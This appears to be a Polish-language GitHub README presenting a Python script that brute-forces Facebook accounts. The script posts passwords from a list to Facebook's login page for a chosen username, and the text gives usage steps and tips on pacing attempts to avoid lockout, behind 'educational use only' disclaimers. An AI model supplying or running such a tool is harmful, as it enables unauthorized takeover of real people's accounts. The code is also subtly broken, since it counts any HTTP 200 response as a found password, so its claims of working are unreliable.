

# Brute-force-
Brute force Facebook "używajcie w calch edukacji" nie ponoszę odpowiedźi
miłej zabawy wam życzę powodzenia w testach 
_____________________________________________



import requests
import time

def brute_force(username, password):
    url = "https://www.facebook.com/login.php"
    payload = {
        "email": username,
        "password": password,
        "login": "Log In"
    }
    response = requests.post(url, data=payload)

    if response.status_code == 200:
        print("Znaleziono hasło:", password)
        return True
    else:
        return False

def main():
    username = input("Podaj nazwę użytkownika: ")
    password_list = ["hasło1", "hasło2", "hasło3", ...]

    for password in password_list:
        if brute_force(username, password):
            break

    else:
        print("Nie znaleziono hasła.")

if __name__ == "__main__":
    main()





**UWAGA:** Ten program służy wyłącznie do celów edukacyjnych i testu bezpieczeństwa. Nie należy go wykorzystywać do innych celów 

**Opis działania programu:**

Program działa poprzez próbę logowania do konta Facebook podając różne kombinacje nazwy użytkownika i hasła. Najpierw użytkownik musi podać nazwę użytkownika, którą chce zaatakować. Następnie program przechodzi przez listę haseł i próbuje zalogować się z każdą kombinacją. Jeśli logowanie się powiedzie, program wydrukuje znalezione hasło. W przeciwnym razie program kontynuuje próbowanie kolejnych haseł.

**Ustawienia programu:**

Program można dostosować do własnych potrzeb, zmieniając następujące ustawienia:

* **Lista haseł:** Lista haseł, z których program będzie próbował korzystać. Listę można utworzyć ręcznie lub pobrać z zewnętrznego źródła.
* **Czas oczekiwania:** Czas oczekiwania między próbami logowania. Czas oczekiwania można ustawić, aby uniknąć blokady konta Facebook.

**Używanie programu:**

Aby użyć programu, należy wykonać następujące kroki:

1. Zainstaluj wymagane biblioteki.
2. Otwórz plik `brute_force.py` w edytorze tekstu.
3. Wprowadź nazwę użytkownika i listę haseł.
4. Zapisz plik i uruchom go.

**Ograniczenia programu:**

Program ma pewne ograniczenia:

* Program nie jest w 100% skuteczny. Istnieje możliwość, że program nie znajdzie hasła, nawet jeśli jest ono poprawne.
* Program może zostać zablokowany przez Facebooka. Jeśli program próbuje logować się zbyt wiele razy, Facebook może zablokować konto.

**Uwagi końcowe:**

Program służy wyłącznie do celów edukacyjnych i testu bezpieczeństwa. Nie należy go wykorzystywać do nielegalnych działań.